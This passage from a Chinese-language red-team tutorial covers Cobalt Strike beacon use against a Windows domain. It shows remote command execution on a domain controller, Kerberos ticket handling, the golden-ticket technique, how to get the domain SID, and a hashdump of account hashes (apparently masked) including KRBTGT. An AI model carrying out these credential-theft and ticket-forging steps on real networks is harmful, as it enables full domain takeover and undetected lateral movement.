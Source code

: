 ```powershell
beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

#### Kerberos 票据

查看有哪些 Kerberos 票据

```powershell
shell klist
```

除去 kerberos 票据

```powershell
kerberos_ticket_purge
```

加载 kerberos 票据

```powershell
kerberos_ticket_use [/path/to/file.ticket]
```

##### 黄金票据

黄金票据 Golden Ticket 是 KRBTGT 帐户的 Kerberos 身份验证令牌，KRBTGT 帐户是一个特殊的隐藏帐户，用于加密 DC 的所有身份验证令牌。然后黄金票据可以使用哈希传递技术登录到任何帐户，从而使攻击者可以在网络内部不受注意地移动。
**使用 mimikatz 伪造黄金票据需要：**
**1、目标的用户名及域名**
**2、域的 SID 值**
域的 SID 值即安全标识符 Security Identifiers，使用 whoami /user 命令可查看，注意不需要 SID 最后的一组数字。

```powershell
beacon> shell whoami /user
[*] Tasked beacon to run: whoami /user
[+] host called home, sent: 43 bytes
[+] received output:

用户信息
----------------

用户名        SID                                         
============= ============================================
teamssix\daniel S-1-5-21-5311978431-183514165-284342044-1000
```

因为不需要 SID 最后一组数字，所以这里要使用的 SID 也就是 S-1-5-21-5311978431-183514165-284342044

**3、DC 中 KRBTGT 用户的 NTLM 哈希**

DC 中 KRBTGT 用户的 NTLM 哈希可以通过 dcsync 或 hashdump 获得，下面的 hashdump 命令在域控制器的 SYSTEM 权限会话下运行。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aca3b435b5z404eeaad3f435b51404he:z1f8417a00az34scwb0dc15x66z43bg1:::
daniel:1108:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```
